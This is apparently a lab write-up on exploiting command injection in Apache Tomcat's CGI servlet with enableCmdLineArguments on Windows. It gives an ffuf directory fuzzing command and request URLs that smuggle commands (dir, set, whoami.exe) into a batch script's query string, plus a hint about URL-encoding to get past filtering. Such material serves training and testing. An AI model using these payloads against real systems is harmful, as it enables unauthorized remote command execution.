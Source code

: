 This vulnerability affects Windows systems that have the `enableCmdLineArguments` feature enabled. 
Versions 9.0.0.M1 to 9.0.17, 8.5.0 to 8.5.39, and 7.0.0 to 7.0.93 of Tomcat are affected.

# Enumeration
1. nmap scan
2. Apache Tomcat/9.0.17 running on port 8080
3. After validation, we try to find a CGI script
# Finding a CGI script
```
ffuf -w /usr/share/dirb/wordlists/common.txt -u http://10.129.204.227:8080/cgi/FUZZ.cmd
```
Example: `welcome.bat` is discovered
# Exploitation
```
http://10.129.204.227:8080/cgi/welcome.bat?&dir
```
1. Navigating to the above URL returns the output for the dir batch command, however trying to run other common windows command line apps, such as whoami doesn't return an output.
2. Retrieve a list of environmental variables
```
http://10.129.204.227:8080/cgi/welcome.bat?&set
```
3. From the list, we can see that the PATH variable has been unset, so we will need to hardcode paths in requests:
	1. http://10.129.204.227:8080/cgi/welcome.bat?&c:\\windows\\system32\\whoami.exe
	2. The above might not work, so we can bypass the filter by URL encoding